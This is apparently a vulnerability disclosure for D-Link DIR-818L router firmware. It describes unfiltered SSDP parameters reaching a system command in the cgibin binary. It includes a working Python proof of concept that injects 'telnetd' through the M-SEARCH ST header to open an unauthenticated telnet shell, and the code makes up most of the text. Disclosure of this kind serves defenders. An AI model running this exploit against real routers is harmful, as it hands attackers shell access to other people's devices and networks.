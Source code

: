 # Firmware:
DIR818L_FW105b01 A1:
# Detail:
Command execution exists in the cgibin binary
The ssdpcgi_main function has a command execution vulnerability caused by unfiltered parameters

![O)MM35GBCV_NA`DN}BHG)OB](https://user-images.githubusercontent.com/84966968/178105747-1dc9b8cc-6b03-48d4-bee0-f3c51414cc2c.png)

![KKMPAI5U05DZM145}(43`RU](https://user-images.githubusercontent.com/84966968/178105767-a5f75f13-cb88-4962-a31d-3feb8c7dc778.png)

lxmldbc_system：

![2O$$QJZ%6M@FEJUSVEU(7AF](https://user-images.githubusercontent.com/84966968/178105811-1e9c87dd-0b46-466c-a182-626da2fcff28.png)

You can see that the environment variables are concatenated directly into the system command without filtering
# poc：
```
import sys
import os
import socket
from time import sleep
def config_payload(ip, port):
    header = "M-SEARCH * HTTP/1.1\n"
    header += "HOST:"+str(ip)+":"+str(port)+"\n"
    header += "ST:urn:device:1;telnetd\n"
    header += "MX:2\n"
    header += 'MAN:"ssdp:discover"'+"\n\n"
    return header
def send_conexion(ip, port, payload):
    sock=socket.socket(socket.AF_INET,socket.SOCK_DGRAM,socket.IPPROTO_UDP)
    sock.setsockopt(socket.IPPROTO_IP,socket.IP_MULTICAST_TTL,2)
    sock.sendto(payload,(ip, port))
    sock.close()
if __name__== "__main__":
    ip = raw_input("Router IP: ")
    port = 1900

headers = config_payload(ip, port)
send_conexion(ip, port, headers)
sleep(5)
os.system('telnet ' + str(ip))
```
![0SOP(3D2535@D%$S4@UNTUP](https://user-images.githubusercontent.com/84966968/178105914-f00d0cdf-c38c-4e3c-9059-bd30cd36bf89.png)

I looked it up online and it looks like it's been there for a long time

